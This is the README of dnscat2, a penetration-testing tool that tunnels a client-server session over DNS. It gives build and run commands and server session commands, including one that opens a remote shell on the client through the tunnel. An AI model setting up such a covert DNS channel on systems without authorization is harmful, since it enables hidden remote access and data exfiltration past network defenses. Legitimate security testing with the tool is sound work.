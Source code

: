 # Introduction

Welcome to dnscat2, a DNS tunnel that WON'T make you sick and kill you!

This implements a tunnel over the DNS protocol. It sets itself apart from other projects by targeting a single use case: penetration testing.

The server is designed to be as featureful and user friendly as possible. It's designed to be run on an authoritative server for a given domain, although you can run it on any server if you don't mind connecting directly on UDP port 53 (rather than traversing the DNS hierarchy). If you're familiar with metasploit and meterpreter, you'll see some inspiration in the commands and structure.

The client is designed to be simple and portable. It can run on just about any operating system, and requires as few libraries as possible. It can be compiled on POSIX systems, including Linux, BSD, and Cygwin, as well as Microsoft Visual Studio (developed on 2008, but available on any version). OS X support is currently untested, but there's no reason to expect it wouldn't work.

Having an authoritative server is as simple as buying a domain name from some provider, and pointing the authority to your IP address. Actually, that's not necessarily a simple task, but it isn't impossibly difficult, either. If you're unsure whether or not you've successfully set up your DNS server appropriately, run a server (see below) and, on the client type:

    $ cd client
    $ make
    $ ./dnscat --ping mydomain.com

# Quick start

To get stated quickly, simply to play around on localhost, try this (requires ruby and bundler - 'gem install bundler', and possibly sudo / rvmsudo):

[server]

    $ git clone https://github.com/iagox86/dnscat2.git
    $ cd dnscat2/server/
    $ bundle install
    # ruby ./dnscat2.rb

(Note that you can literally use "mydomain.com" to play around)

[client]

    $ git clone https://github.com/iagox86/dnscat2.git
    $ cd dnscat2/client/
    $ make
    $ ./dnscat --host localhost

On the server, you should see "New session established: 1". Type "session -i 1" to interact. Type 'help' anywhere on the server to get some help (additionally, every command on the server has a "-h" flag).

If you have the authoritative DNS server for a domain, you can give the domain name to both the client and the server:

[server]

    # ruby ./server.rb <domain(s)>

[client]

    # ./dnscat <domain>

The system DNS server will be used, if possible, and the DNS request will traverse the DNS infrastructure instead of going directly to the server.

# Compilation 

The server portion doesn't need to be compiled, but it does require a few things:

- ruby 1.9 or higher
- bundler

You'll have to run 'bundle install' in the server directory to get the files you need.

The C version should have no strange dependencies, and should compile on any POSIX-compliant system (I've tested it on Linux, FreeBSD, and Cygwin). To compile, simply cd into the client directory and type "make".

On Windows, Visual Studio is required (I tested on Visual Studio 2008, the only version I have). Load client/win32/dnscat2.vcproj and compile it. That should produce dnscat2.exe somewhere.

# Installation

This is no installation. Grab the package and run it. The only thing that looks like an installation is installing dependencies for the server:

    $ bundle install

# Usage

There isn't much to say here - it's mostly self documenting.

On the client, typically you'll just run it:

    $ ./dnscat2 mydomain.com

If you need to use a custom DNS server - or connect directly to the dnscat2 server if you don't have a domain name for yourself - you can use the --host argument. For a list of all arguments, use --help.

On the server, almost everything is self-documenting. The most important commands are:

- help - get a list of valid commands for the context
- sessions - list all active sessions
- session -i XXX - interact with session XXX
- suspend (or ctrl-Z) - exit out of a session without killing it
- shell - tell a session to create a shell (this only works when interacting with a session)

And that's about it!

# History

dnscat2 - the successor to dnscat, also written by me - is an attempt to right some of the wrongs that I committed while writing the original version of dnscat. The biggest problem being a total lack of testing or of forethought into the protocol.

The original dnscat was heavily linked to the dns protocol. It tried to encode the various control fields - things like sequence number - into the DNS protocol and use that.

dnscat2, on the other hand, treats everything as a stream of bytes, and uses logic to convert that stream of bytes into dns requests. Thus, it's a layered protocol, with DNS being a lower layer.

I invented a protocol that I'm calling the dnscat protocol. You can find documentation about it in docs/protocol.txt. It's a simple polling network protocol, where the client occasionally polls the server, and the server responds with a message (or an error code). The protocol is designed to be resilient to the various issues I had with dnscat1 - that is, it can handle out-of-order packets, dropped packets, and duplicated
packets equally well.

Finally, one last change from the original dnscat is that I decided not to use the same program for both clients and servers. It turns out that dnscat servers are much more complex than clients, so it made sense to write the server in a higher level language (I chose ruby), while still keeping the client (written in C) as functional/simple/portable as I possibly could.
